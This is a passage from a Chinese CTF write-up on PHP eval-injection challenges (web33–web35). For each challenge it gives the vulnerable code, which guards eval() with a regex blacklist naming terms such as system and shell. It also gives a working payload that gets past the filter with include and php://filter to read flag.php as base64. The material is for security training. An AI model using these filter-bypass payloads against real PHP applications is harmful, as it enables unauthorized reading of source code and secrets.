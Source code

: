 ```php
    }
    
}else{
    highlight_file(__FILE__);
}
```
过滤了挺多的，反引号过滤了，就不能执行system命令了，左括号过滤了，一些函数也不能用了
这里使用include包含方法，包含一个get请求，分号过滤就用?>进行闭合，后面对2进行传参，包含flag.php，直接包含是读不到的，使用php伪协议进行base64编码，然后将回显内容解base64即可
payload：/?c=include$_GET[2]?>&2=php://filter/convert.base64-encode/resource=flag.php
## web33（include逃逸）
```php
<?php
error_reporting(0);
if(isset($_GET['c'])){
    $c = $_GET['c'];
    if(!preg_match("/flag|system|php|cat|sort|shell|\.| |\'|\`|echo|\;|\(|\"/i", $c)){
        eval($c);
    }
    
}else{
    highlight_file(__FILE__);
}
```
接着逃
payload：/?c=include$_GET[2]?>&2=php://filter/convert.base64-encode/resource=flag.php
或者
GET：/?c=include$_POST[2]?>
POST：2=php://filter/convert.base64-encode/resource=flag.php
## web34（include逃逸）
```php
<?php
error_reporting(0);
if(isset($_GET['c'])){
    $c = $_GET['c'];
    if(!preg_match("/flag|system|php|cat|sort|shell|\.| |\'|\`|echo|\;|\(|\:|\"/i", $c)){
        eval($c);
    }
    
}else{
    highlight_file(__FILE__);
}
```
同上
payload：/?c=include$_GET[2]?>&2=php://filter/convert.base64-encode/resource=flag.php
## web35（include逃逸）
```php
<?php
error_reporting(0);
if(isset($_GET['c'])){
    $c = $_GET['c'];
    if(!preg_match("/flag|system|php|cat|sort|shell|\.| |\'|\`|echo|\;|\(|\:|\"|\<|\=/i", $c)){
        eval($c);
    }
    
}else{
    highlight_file(__FILE__);
}
```
同上
payload：/?c=include$_GET[2]?>&2=php://filter/convert.base64-encode/resource=flag.php
